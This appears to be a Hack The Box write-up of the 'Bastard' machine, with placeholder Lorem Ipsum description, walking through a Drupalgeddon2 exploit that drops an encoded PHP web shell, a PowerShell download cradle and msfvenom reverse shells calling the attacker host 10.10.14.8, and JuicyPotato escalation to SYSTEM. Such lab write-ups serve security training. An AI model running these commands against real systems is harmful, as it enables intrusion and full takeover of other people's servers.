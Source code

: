 ```yaml
---
title: Bastard - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-25
image: images/bastard_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/bastard_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/bastard]# nmap -Pn -n -sCV 10.10.10.9 --open                                                                       (master✱)
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Microsoft IIS httpd 7.5
    |_http-generator: Drupal 7 (http://drupal.org)
    | http-methods:
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
    |_/LICENSE.txt /MAINTAINERS.txt
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Welcome to 10.10.10.9 | 10.10.10.9
    135/tcp   open  msrpc   Microsoft Windows RPC
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  DIRB:


  NIKTO:



2. We can see that the server is running 'Drupal 7', which is very vulnerable. A quick google for 'drupal 7 rce exploit'
   and we find the ruby script drupalgeddon2, download it and exploit.

  [root:/git/htb/bastard]# ./drupalgeddon.rb http://10.10.10.9/                                                                     (master✱)
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.54
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Clean URLs
    [+] Result : Clean URLs enabled
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo AFLLPNGO
    [+] Result : AFLLPNGO
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.10.10.9/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (sites/default/)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (sites/default/files/)
    [*] Moving : ./sites/default/files/.htaccess
    [i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    [!] FAILED : Couldn't find a writeable web path
    --------------------------------------------------------------------------------
    [*] Dropping back to direct OS commands
  drupalgeddon2>> whoami
    nt authority\iusr
  drupalgeddon2>> type C:\Users\dimitris\Desktop\user.txt
    ba22fde1932d06eb76a163d312f921a2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Get a better shell, upgrade to Powershell.

  drupalgeddon2>> powershell.exe IEX(New-Object Net.Webclient).downloadString('http://10.10.14.8/ps-rev.ps1')

  [root:/srv/pub-share]# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.9 - - [02/Mar/2021 14:56:38] "GET /ps-rev.ps1 HTTP/1.1" 200 -

  root@nidus:/git/htb/bastard# rlwrap nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 50223
    PS C:\inetpub\drupal-7.54> whoami
      nt authority\iusr


2. Check your privs, and if it's possible to abuse them.

  PS C:\inetpub\drupal-7.54> whoami /all
    --- snip ---
    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name          Description                               State
    ======================= ========================================= =======
    SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
    SeImpersonatePrivilege  Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege Create global objects                     Enabled

'SeImpersonatePrivilege' is always interesting, this often mean we can get SYSTEM using JuicyPotato.


3. Juice up the potato!

Create a payload and put it on SMB Share:
  [root:/git/htb/bastard]# msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.8 lport=4499 > bastard-privesc.bat                (master✱)
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 1583 bytes
  [root:/git/htb/bastard]# cp bastard-privesc.bat /srv/pub-share

Check system OS:
  PS C:\inetpub\drupal-7.54> systeminfo
    --- snip ---
    OS Name:                   Microsoft Windows Server 2008 R2 Datacenter

Upload JuicyPotato, grab a random CLSID (from JuicyPotato's GitHub) and exploit:
  C:\tmp> copy \\10.10.14.8\pub-share\JuicyPotato.exe .
  C:\tmp> JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c \\10.10.14.8\pub-share\bastard-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}

The command doesn't provide any output, feel like something is wrong with the PS session. Try directly from drupalgeddon instead.

  drupalgeddon2>> C:\tmp\JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c \\10.10.14.8\pub-share\bastard-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1444
    ....
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK

  [root:/srv/pub-share]# nc -lvnp 4499
    listening on [any] 4499 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 50541
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
      nt authority\system

    C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt.txt
      4bf12b963da1b30cc93496f617f7ba7c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


drupalgeddon2:
  https://github.com/dreadlocked/Drupalgeddon2

JuicyPotato:
  https://github.com/ohpe/juicy-potato

CLSIDs Windows 2008 R2:
  https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
